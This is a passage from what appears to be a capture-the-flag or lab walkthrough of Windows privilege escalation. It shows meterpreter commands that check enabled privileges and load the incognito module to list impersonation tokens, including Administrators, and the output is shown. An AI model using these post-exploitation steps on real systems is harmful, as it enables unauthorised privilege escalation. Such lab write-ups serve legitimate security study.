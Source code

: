 Now that we have a nice meterpreter shell, we can try and see what privileges we have:
```shell-session
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

As the user `alfred`, we have the `SeDebugPrivilege`, `SeImpersonatePrivilege` and `SeCreateGlobalPrivilege` privileges enabled. Loading the `incognito` module, we can then use it to list tokens:

```shell-session
PS > ^C
Terminate channel 1? [y/N]  y                                                             
meterpreter > load incognito                                                              
Loading extension incognito...Success.                                                    
meterpreter > list_tokens -g                                                              
[-] Warning: Not currently running as SYSTEM, not all tokens will be available            
             Call rev2self if primary process token is SYSTEM                             
                                                                                          
Delegation Tokens Available                                                               
========================================                                                  
\                                                                                         
BUILTIN\Administrators                                                                    
BUILTIN\IIS_IUSRS                                                                         
BUILTIN\Users                                                                             
NT AUTHORITY\Authenticated Users                                                          
NT AUTHORITY\NTLM Authentication                                                          
NT AUTHORITY\SERVICE                                                                      
NT AUTHORITY\This Organization                                                            
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
```